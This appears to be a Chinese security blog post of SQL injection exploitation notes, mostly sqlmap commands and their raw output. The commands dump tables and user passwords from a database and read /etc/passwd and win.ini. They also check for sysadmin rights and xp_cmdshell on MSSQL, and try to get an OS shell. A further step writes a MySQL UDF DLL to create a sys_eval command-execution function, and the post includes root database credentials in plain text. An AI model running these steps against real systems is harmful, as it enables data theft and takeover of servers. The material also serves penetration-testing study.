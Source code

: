 ```yaml
---
layout: post
toc: true
title: "「SQL注入」:SQL-SHELL"
author: Bin4xin
categories:
    - blog
    - 漏洞复现
    - 笔记
    - CVE
    - Sql-Inject
permalink: /blog/2020/SQL/SHELL/
---
```



### sqlmap注入方法

```bash

sqlmap -r Desktop/uid.txt --current-user

sqlmap -r Desktop/uid.txt -D aiweb1 --tables

sqlmap -r Desktop/uid.txt -D aiweb1 -T systemUser --columns

sqlmap -r Desktop/uid.txt -D aiweb1 -T systemUser -C id,password,userName

sqlmap -r Desktop/uid.txt --file-read="/etc/passwd"

sql-shell> select load_file('/etc/passwd')

```

```bash
查看数据库信息和系统版本
sql-shell> select @@version
[14:29:22] [INFO] fetching SQL SELECT statement query output: 'select @@version'
select @@version:    'Microsoft SQL Server 2008 R2 (RTM) - 10.50.1600.1 (X64) \n\tApr  2 2010 15:48:46 \n\tCopyright (c) Microsoft Corporation\n\tStandard Edition (64-bit) on Windows NT 6.1 <X64> (Build 7601: Service Pack 1)\n'

验证是否为sa权限
sql-shell> select IS_SRVROLEMEMBER('sysadmin')
[14:30:08] [INFO] fetching SQL SELECT statement query output: 'select IS_SRVROLEMEMBER('sysadmin')'
select IS_SRVROLEMEMBER('sysadmin'):    '1'

判断目标机的MSSQL服务是否存在`xp_cmdshell`扩展存储过程：
sql-shell> select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';
[14:31:00] [INFO] fetching SQL SELECT statement query output: 'select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell''
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';:    '1'
只要返回结果不是`0`就说明存在`xp_cmdshell`扩展存储过程。
```
### 遇到问题

```bash
sql-shell> Exec master..xp_cmdshell 'whoami';
[14:32:58] [WARNING] execution of non-query SQL statements is only available when stacked queries are supported
```



### how
sqlmap -r /home/tool/sqlmap-data/wsdl-inject/net-test1.txt --batch --file-read="C:\Windows\win.ini"
```bash
[14:24:08] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2008 R2 or 7
web application technology: ASP.NET 4.0.30319, Microsoft IIS 7.5, ASP.NET
back-end DBMS: Microsoft SQL Server 2008
[14:24:08] [ERROR] none of the SQL injection techniques detected can be used to read files from the underlying file system of the back-end Microsoft SQL Server server
```

### ?os-shell?
mysql:
select password(''),concat('*',sha1(unhex(sha1(''))));
sqlmap -d "mysql://root:Hehe123456@192.168.192.120:3306/test" --os-shell





```bash
select "hex" into outfile "D:/phpStudy/MySQL/lib/plugin/udf.dll"
```

CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
